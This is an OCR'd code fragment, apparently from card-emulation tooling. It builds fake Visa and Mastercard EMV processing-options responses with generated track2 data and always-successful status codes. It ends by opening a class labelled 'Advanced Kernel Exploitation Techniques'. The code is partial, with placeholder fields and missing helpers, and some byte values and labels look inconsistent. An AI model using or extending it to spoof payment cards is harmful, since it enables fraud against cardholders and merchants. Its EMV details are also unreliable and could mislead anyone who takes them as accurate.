 ```python
        
        if kernel == 'visa_k3':
            # Visa-specific GPO response structure
            return self.build_visa_gpo_response(gpo_request)
        elif kernel == 'mastercard_k2':
            # Mastercard-specific GPO response structure
            return self.build_mastercard_gpo_response(gpo_request)
    
    def build_visa_gpo_response(self, gpo_request):
        """
        Constrói resposta GPO no formato Visa
        """
        # Visa uses different AIP structure
        aip_visa = bytearray([0x20, 0x00])  # DDA supported, no CDA
        
        # Visa-specific IAD format
        iad_visa = bytearray([
            0x1F,  # IAD length
            0x01,  # IAD format version
            0x02,  # Derivation key index
            0x03,  # Card verification results
            0x04,  # DAC/ICC Dynamic Number
            # ... additional Visa-specific fields
        ])
        
        gpo_response = {
            'aip': aip_visa,
            'afl': b'\x08\x01\x01\x00',  # Application File Locator
            'iad': iad_visa,
            'track2': self.generate_track2_equivalent(),
            'status': '9000'
        }
        
        return self.encode_gpo_response(gpo_response)
    
    def build_mastercard_gpo_response(self, gpo_request):
        """
        Constrói resposta GPO no formato Mastercard
        """
        # Mastercard AIP structure
        aip_mc = bytearray([0x5C, 0x00])  # CDA supported
        
        # Mastercard-specific IAD format  
        iad_mc = bytearray([
            0x0E,  # IAD length
            0x84,  # Application Transaction Counter
            0x00,  # Application Cryptogram
            # ... Mastercard-specific fields
        ])
        
        gpo_response = {
            'aip': aip_mc,
            'afl': b'\x08\x01\x02\x00',
            'iad': iad_mc,
            'track2': self.generate_track2_equivalent(),
            'status': '9000'
        }
        
        return self.encode_gpo_response(gpo_response)

# Advanced Kernel Exploitation Techniques
class KernelExploitationEngine:
    def __init__(self):
```